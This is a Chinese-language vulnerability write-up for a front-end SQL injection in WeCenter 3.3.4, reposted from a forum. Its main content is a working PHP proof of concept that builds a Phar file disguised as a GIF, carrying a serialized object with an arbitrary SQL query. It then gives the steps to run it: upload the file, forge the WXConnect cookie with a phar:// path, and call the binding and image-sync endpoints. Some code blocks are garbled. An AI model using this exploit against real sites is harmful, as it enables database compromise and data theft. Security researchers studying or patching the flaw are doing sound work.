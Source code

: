 # WeCenter 3.3.4 前台sql注入

> 原文：[https://www.zhihuifly.com/t/topic/3235](https://www.zhihuifly.com/t/topic/3235)

# WeCenter 3.3.4 前台sql注入

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意sql语句执行

**system/aws_model.inc.php:__destruct()** 方法中存在任意 **SQL** 语句执行。

![image](img/44c98e0ec48dd6423b74b3a031f17bfb.png)

### poc

```
<?php
class AWS_MODEL
{
    private $_shutdown_query = array();

```
public function __construct($_shutdown_query)
{
    $this-&gt;_shutdown_query = $_shutdown_query;
} 
```

} `$sql = array(‘select updatexml(1,concat(0x3a,md5(233),0x3a),1)’);

$evilobj = new AWS_MODEL($sql);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering();

?>` 
```

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![image](img/4e577ace85ddce02964440713bbf8063.png)

记录下上传后的目录

![image](img/91ac0f294b0332cad9ab5b2d25198f47.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

```
<?php
    $arr = array();
    $arr['access_token'] = array('openid' => '1');
    $arr['access_user'] = array();
    $arr['access_user']['openid'] = 1;
    $arr['access_user']['nickname'] = 'naiquan';
    $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
    echo json_encode($arr);
?> 
```

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![image](img/78afbe781a029132f66ea18a2842bcf5.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![image](img/74ca05495b28796f67a0cb57d47e9d42.png)

任意SQL语句执行成功